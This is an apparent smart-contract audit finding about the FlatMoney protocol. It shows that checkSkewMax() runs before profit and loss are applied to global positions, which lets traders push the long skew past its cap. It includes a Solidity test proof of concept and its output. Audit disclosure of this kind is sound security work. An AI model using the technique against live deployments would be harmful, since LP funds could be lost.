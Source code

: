 Attractive Basil Barracuda

high

# skewFractionMax can be significantly exceeded, putting LPs at risk

## Summary

To ensure that the balance between leverage positions and stable collateral is healthy for the protocol and guarantees the security of LPs, the checkSkewMax() function from the FlatcoinVault module is called before any operation related to changing this ratio. It checks whether the max long skew exceeds skewFractionMax, and if it does, it reverts, thus preventing the execution of the given operation. The problem is that this check is not performed correctly, and skewFractionMax can be significantly exceeded.

## Vulnerability Detail

https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/FlatcoinVault.sol#L296-L307

When calculating the current skew, two variables from _globalPositions are used: sizeOpenedTotal and stableCollateralTotal. sizeOpenedTotal is the total leverage amount for all positions, and stableCollateralTotal is the total amount of rETH deposited by LPs. We know that LPs are counter-parties to the traders and they play short against the long positions of the traders. So, when there is a change in the price of rETH, it leads to a change in stableCollateralTotal and marginDepositedTotal (which is the total amount of collateral deposited by traders). How this change is calculated can be seen in the updateGlobalPositionData function in FlatcoinVault. The problem is that this is not taken into account when calculating longSkewFraction, meaning that longSkewFraction is calculated based on the old balance. A user can take advantage of this and add new leverage when it should not be possible, thus violating a core invariant and putting LPs at risk. I will provide an example of a function that incorrectly executes checkSkewMax(), but the same is done in many other places in the code.

https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LeverageModule.sol#L147-L186

We can see that checkSkewMax() is executed first, and only then are the global variables updated. So the total profit and loss are not taken into consideration. Finally, I am attaching a proof of concept (POC) that demonstrates how this occurs in practice with a 10% increase in the price of rETH. You can place it in OpenPosition.t.sol.

```solidity
    function log_state() public {
        FlatcoinStructs.VaultSummary memory vs = vaultProxy.getVaultSummary();
        vs = vaultProxy.getVaultSummary();
        console2.log("stableCollateralTotal: %d", vs.stableCollateralTotal);
        console2.log("sizeOpenedTotal: %d", vs.globalPositions.sizeOpenedTotal);
        
        uint256 longSkewFraction;
        if(vs.stableCollateralTotal > 0)
        {
            longSkewFraction = ((vs.globalPositions.sizeOpenedTotal + 0) * 1e18) / vs.stableCollateralTotal;
        }
         
        console2.log("longSkewFraction: %d \n", longSkewFraction);
    }

    function test_bypass_skewFractionMax() public {
        log_state();

        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: uint256(100e18),
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });

        console2.log("Alice deposited 100 weth");

        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: bob,
            keeperAccount: keeper,
            margin: 100e18,
            additionalSize: 100e18,
            oraclePrice: 1000e8,
            keeperFeeAmount: 0
        });
        
        console2.log("Bob opened leverage position with 100 weth margin and 100 weth additional size");

        log_state();

        setWethPrice(1100e8);

        uint256 tokenId2 = announceAndExecuteLeverageOpen({
            traderAccount: carol,
            keeperAccount: keeper,
            margin: 20e18,
            additionalSize: 20e18,
            oraclePrice: 1100e8,
            keeperFeeAmount: 0
        });
        
        console2.log("Carl opened leverage position with 20 weth margin and 20 weth additional size");

        log_state();

        vm.expectRevert();
        vaultProxy.checkSkewMax(0);
    }
```
```text
  stableCollateralTotal: 0
  sizeOpenedTotal: 0
  longSkewFraction: 0 

  Alice deposited 100 weth
  Bob opened leverage position with 100 weth margin and 100 weth additional size
  stableCollateralTotal: 100000000000000000000
  sizeOpenedTotal: 100000000000000000000
  longSkewFraction: 1000000000000000000 

  Carl opened leverage position with 20 weth margin and 20 weth additional size
  stableCollateralTotal: 90909090909090909091
  sizeOpenedTotal: 120000000000000000000
  longSkewFraction: 1319999999999999999
```

You can see that the skew become 1.31 while the max allowed is 1.2.

## Impact

Violation of a core invariant, the possibility to take more leverage than allowed. This leads to a significant increase in the risk for LPs and consequently the loss of funds.

## Code Snippet

Above

## Tool used

Manual Review

## Recommendation

Update the global position with profit and loss before execute checkSkewMax().